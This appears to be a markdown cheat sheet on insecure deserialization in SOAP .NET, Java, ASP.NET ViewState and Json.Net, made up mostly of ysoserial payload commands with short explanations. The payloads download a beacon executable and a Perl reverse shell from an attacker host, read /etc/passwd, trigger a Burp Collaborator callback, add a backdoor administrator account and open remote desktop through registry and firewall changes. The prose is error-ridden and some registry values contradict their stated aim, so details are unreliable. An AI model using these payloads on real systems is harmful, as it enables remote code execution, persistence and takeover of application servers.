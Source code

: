 #  Insecure deserialization Vulnerability
Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.subconsequently,deserialization vulnerabilities could allow attackers to perform remote code execution without authentication in the context of application server and gaining access to unauthorized data.Serialized objects are generally sent across is base64 format used in web applications.Technically Serialization is the process of converting the object and class into a binary so that save into disk. on the other hand,deserialization is the process of converting the Object(Bring Back to original Object at the code stage)..

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Java Deserialization 

The deserialization vulnerabilities may occur when deserialize convert to an object any serialized stream without first validating in the Java Base Application.
due to the combination of two rudimentary implementations flaws.The deserialization vulnerabilities are considered difficult to make it secure in the application for develops.
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 

view state is the technique used by an ASP.NET Web page to persist changes to the state of a Web Form across postbacks. By default.
technically ViewState is used to store user data on page at the time of post back of web page however ViewState does not hold the controls,it holds the values of controls.
When tthe page is accessed, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

**It might be possible to execute arbitrary OS Command In the context of applicaiton server if MAC doesn't enforce to enable in the viewstate parameter.**

This format seems to be standardized for all Viewstate implementations in the ASP.Net Application.

* Base64 **Can be defined using EnableViewStateMac and ViewStateEncryptionMode attribute set to false**
* Base64 + MAC (Message Authentication Code) **Enabled Can be defined using EnableViewStateMac attribute set to true**
* Base64 + Encrypted **Can be defined using viewStateEncryptionMode attribute set to true**
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```
# Json Deserialization
```
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 192.168.100.100" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c net user MeMe 123456!@ /add " -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "net localgroup administrators MeMe /add" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f" -o base64

```
